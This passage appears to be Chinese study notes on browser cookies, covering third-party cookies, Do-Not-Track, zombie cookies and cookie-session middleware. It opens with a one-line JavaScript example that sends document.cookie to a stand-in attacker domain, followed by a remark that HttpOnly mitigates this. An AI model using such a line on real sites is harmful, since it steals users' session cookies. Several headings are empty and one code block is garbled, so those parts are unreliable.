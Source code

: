 ```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
// HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。
```

### 跨站请求伪造（CSRF）

## 追踪和隐私

### 第三方 Cookie

每个 Cookie 都会有与之关联的域（Domain），如果 Cookie 的域和页面的域相同，那么我们称这个 Cookie 为第一方 Cookie（first-party cookie），如果 Cookie 的域和页面的域不同，则称之为第三方 Cookie（third-party cookie.）。一个页面包含图片或存放在其他域上的资源（如图片广告）时，第一方的 Cookie 也只会发送给设置它们的服务器。通过第三方组件发送的第三方 Cookie 主要用于广告和网络追踪。这方面可以看谷歌使用的 Cookie 类型（types of cookies used by Google）。大多数浏览器默认都允许第三方 Cookie，但是可以通过附加组件来阻止第三方 Cookie（如 EFF 的 Privacy Badger）。

如果你没有公开你网站上第三方 Cookie 的使用情况，当它们被发觉时用户对你的信任程度可能受到影响。一个较清晰的声明（比如在隐私策略里面提及）能够减少或消除这些负面影响。在某些国家已经开始对 Cookie 制订了相应的法规，可以查看维基百科上例子 cookie statement。

### 禁止追踪 Do-Not-Track

虽然并没有法律或者技术手段强制要求使用 DNT，但是通过 DNT 可以告诉 Web 程序不要对用户行为进行追踪或者跨站追踪。查看 DNT 以获取更多信息。

### 僵尸 Cookie 和删不掉的 Cookie

Cookie 的一个极端使用例子是僵尸 Cookie（或称之为“删不掉的 Cookie”），这类 Cookie 较难以删除，甚至删除之后会自动重建。它们一般是使用 Web storage API、Flash 本地共享对象或者其他技术手段来达到的。相关内容可以看：

### cookie-encrypter cookie 加密

## session

- 保存在服务端

- 安全，无限

```js
cookie - parse;

cookie - session;
```

multer

consolidate

## session

### cookie-session

```js
const cookieSession = require('cookie-session');
app.use(cookieSession(options));
```
